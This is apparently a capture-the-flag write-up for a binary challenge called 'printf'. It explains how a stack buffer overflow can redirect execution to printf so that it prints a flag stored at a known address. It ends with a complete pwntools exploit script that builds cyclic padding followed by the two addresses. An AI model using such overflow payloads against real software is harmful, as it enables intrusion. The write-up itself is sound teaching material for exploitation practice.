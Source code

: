# printf

Running the binary for this challenge informs us that the flag was loaded at **0x804c040**.

![Inline](../images/pf_1.png?raw=true)


Looking at the source code, we can see there is a **printf** function in the **main**. We can use that function to print our flag by printing the value of **key** variable.

![Inline](../images/pf_2.png?raw=true)


To do that we disassamble the main function and get the binary address of **printf**. That is **0x0804938c**.

![Inline](../images/pf_3.png?raw=true)


Now we can send the **printf** followed by the **key** which the function will take as an argument.

## Exploit
Final exploit is:
```python 
from pwn import *
target = './printf'
e = context.binary = ELF(target,checksec=True)
context.log_level='debug'
io = process(target)
io.recvline()

printf = 0x0804938c 
key = 0x804c040
#ret = 0x080493ac
#pr_f = e.symbols['got.printf']

buf2ebp = 0x10

payload = ''
payload = cyclic(buf2ebp+4)
payload += p32(printf) 
payload += p32(key)

io.sendline(payload)

io.recvline()
io.recvline()
io.recvline()

io.close()
```